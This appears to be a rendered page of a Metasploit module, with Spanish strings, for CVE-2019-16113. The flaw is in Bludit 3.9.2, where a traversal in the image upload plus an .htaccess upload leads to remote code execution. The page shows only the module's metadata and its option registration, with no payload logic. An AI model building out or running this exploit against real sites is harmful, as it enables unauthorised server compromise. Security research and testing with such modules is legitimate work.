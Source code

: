 ```ruby
def initialize(info={})
  super(update_info(info,
    'Name'           => "Vulnerabilidad de Subida de Archivos de Imagen por Recorrido de Directorios en Bludit",
    'Description'    => %q{
      Este módulo explota una vulnerabilidad en Bludit. Un usuario remoto podría abusar del parámetro uuid en la función de carga de imágenes para guardar una carga maliciosa en cualquier parte del servidor, y luego usar un archivo .htaccess personalizado para eludir la verificación de la extensión del archivo y finalmente lograr la ejecución remota de código.
    },
    'License'        => MSF_LICENSE,
    'Author'         =>
      [
        'christasa', # Descubrimiento original
        'sinn3r'     # Módulo de Metasploit
      ],
    'References'     =>
      [
        ['CVE', '2019-16113'],
        ['URL', 'https://github.com/bludit/bludit/issues/1081'],
        ['URL', 'https://github.com/bludit/bludit/commit/a9640ff6b5f2c0fa770ad7758daf24fec6fbf3f5#diff-6f5ea518e6fc98fb4c16830bbf9f5dac' ]
      ],
    'Platform'       => 'php',
    'Arch'           => ARCH_PHP,
    'Notes'          =>
      {
        'SideEffects' => [ IOC_IN_LOGS ],
        'Reliability' => [ REPEATABLE_SESSION ],
        'Stability'   => [ CRASH_SAFE ]
      },
    'Targets'        =>
      [
        [ 'Bludit v3.9.2', {} ]
      ],
    'Privileged'     => false,
    'DisclosureDate' => "2019-09-07",
    'DefaultTarget'  => 0))
```

### Prueba de Concepto - Funciones

```ruby
register_options(
    [
      OptString.new('TARGETURI', [true, 'La ruta base para Bludit', '/']),
      OptString.new('BLUDITUSER', [true, 'El nombre de usuario para Bludit']),
      OptString.new('BLUDITPASS', [true, 'La contraseña para Bludit'])
    ])
end
```
